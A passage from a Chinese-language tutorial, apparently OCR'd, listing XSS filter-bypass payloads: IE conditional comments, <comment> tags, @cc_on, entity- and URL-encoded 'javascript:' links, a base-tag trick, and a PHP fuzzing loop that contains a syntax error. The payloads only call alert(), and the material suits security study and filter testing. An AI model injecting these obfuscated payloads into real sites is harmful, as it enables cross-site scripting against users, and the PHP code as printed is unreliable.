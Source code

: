 ```
<![endif] > 
```

同时 IE 还支持另外一种方法来执行条件语句，就是通过<comment>标签，并且标签之间的代码并不会执行，但是其他浏览器却会执行。</comment>

```
<comment><img src=x onerror=alert(3)><comment>
<comment onclick=alert(1)>XXX--> //Opera 不执行 
```

IE 的 JS 引擎里同样也有条件注释的语法：

```
<script>
//@cc_on!alert(1)
/*@cc_on~alert(2)@*/
</script> 
```

前面提到过标签属性中的 URI 可以做 entity 编码，同时，javascript:后面也可以做 url 编码，下面代码在所有浏览器中都可以成功执行。

```
<a href="j&#x61vascript:%61lert(1)">click me</a> 
```

同时后面的 url 编码可以再做一次 entity 编码：

```
<a href="j&#x61vascript:&#x25;61lert(1)">click me</a> 
```

由于 entity 编码允许&#之后插入任意多个 0，再利用上 javascript 的注释混淆后：

```
<a href="j&#x61vascript: //%0&#x61 &#x00025;61lert(1)">click me</a> 
```

base 标签定义当前页面链接默认地址或默认目标，下面代码在 opera 中可执行：

```
<base href="javascript:alert(1)"/>
<a href="#">click me</a> 
```

javascript 也可以换行分割（在 IE 与 chrome 中可执行 alert）：

```
<a href="j&#x61v
ascript: //%0&#x61 &#x00025;61lert(1)">click me</a> 
```

换行字符同时也可以使用 entity 编码：

```
<a href="j&#x61va&#x000Ascript://%0&#x61&#x00025;61lert(1)"> click me</a>

<?php
for($i = 0; $i<=65535; $i++) {
    $chr = html_entity_decode('&#'.$i.';', ENT_QUOTES, 'UTF-8'0);
    echo '<iframe src="java'.$chr.'script:alert('.$i.')"></iframe> <br/>';
} ?> 
```
